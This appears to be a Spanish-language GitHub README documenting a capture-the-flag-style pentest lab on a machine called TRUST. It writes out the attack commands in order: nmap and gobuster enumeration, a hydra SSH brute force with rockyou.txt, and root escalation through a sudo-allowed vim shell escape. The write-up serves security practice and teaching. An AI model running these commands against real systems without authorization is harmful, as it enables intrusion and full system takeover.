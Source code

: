 # Lab de Pentesting: Escalada de privilegios en máquina TRUST

Este repositorio documenta el proceso paso a paso para comprometer y escalar privilegios en la máquina objetivo con IP \`172.18.0.2\`.

---

## Resumen

El objetivo principal fue identificar servicios activos, realizar enumeración, obtener acceso mediante fuerza bruta y finalmente escalar privilegios para obtener control total del sistema.

---

## Herramientas utilizadas

- `ping\`
- `nmap\`
- `gobuster\`
- `hydra\`
- `ssh\`
- `vim\`
- Diccionario `rockyou.txt\`

---

## Pasos realizados

### 1. Verificar conectividad con ping


    ping -c 4 172.18.0.2


![Ping a la IP](screenshots/ping.PNG)

Se confirmó que el objetivo responde a la red.

---

### 2. Escaneo completo de puertos con Nmap


    nmap -sV -sC -p- 172.18.0.2 --open -oN scanPuertos.txt


![escaneo](screenshots/escaneo.PNG)

Detectamos los puertos abiertos:
- Puerto 22 (SSH)
- Puerto 80 (HTTP)
Vemos que tiene el puerto 80 mediante el navegador

![navegador](screenshots/puerto80http.PNG)

---

### 3. Enumeración de directorios HTTP con Gobuster


    gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://172.18.0.2 -x php,html,xml,txt,json


Se descubrió el archivo \`secret.php\`.

![gobuster](screenshots/gobuster.PNG)

---

### 4. Análisis del archivo \`secret.php\`

Al visitar `http://172.18.0.2/secret.php\` encontramos un nombre: **Mario**.

![Nombre](screenshots/mario.PNG)

---

### 5. Ataque de fuerza bruta SSH con Hydra

Intentamos acceder vía SSH con el usuario \`mario\` usando el diccionario \`rockyou.txt\`:


    hydra -l mario -P /usr/share/wordlists/rockyou.txt -v ssh://172.18.0.2


Se logró obtener la contraseña correcta.

![Password](screenshots/contraseña.PNG)

---

### 6. Acceso vía SSH

Conectamos exitosamente a la máquina como usuario `mario\`.

![SHH](screenshots/conexionSSH.PNG)

---

### 7. Enumeración para escalada de privilegios

Ejecutamos:


    sudo -l


Se observó que `mario\` puede ejecutar `vim\` con privilegios de root sin contraseña.

![escala](screenshots/escalada.PNG)

---

### 8. Explotación para obtener shell root

Usando la técnica encontrada en [GTFOBins - Vim](https://gtfobins.github.io/), ejecutamos:

![escalada](screenshots/escaladavim.PNG)


    sudo vim -c ':!/bin/sh'


![accesoRoot](screenshots/accesoRoot.PNG)

Conseguimos un shell con privilegios root y control total de la máquina.

![Root](screenshots/root.PNG)

---

## Resultados finales

- Acceso root conseguido en la máquina objetivo.
- Escalada de privilegios exitosa mediante abuso de sudo con vim.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
